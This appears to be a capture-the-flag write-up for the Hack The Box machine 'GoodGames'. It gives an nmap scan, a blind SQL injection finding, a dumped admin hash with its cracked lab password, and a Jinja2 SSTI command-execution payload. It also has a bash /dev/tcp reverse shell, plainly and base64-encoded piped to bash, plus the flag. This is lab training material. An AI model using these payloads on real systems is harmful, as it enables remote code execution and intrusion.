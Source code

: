 Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

Dump the users table and we find admin credentials
```
admin@goodgames.htb
2b22337f218b2d82dfc3b6f77e7cb8ec
```

Crack the hash and logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin@goodgames.htb
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution through SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
````
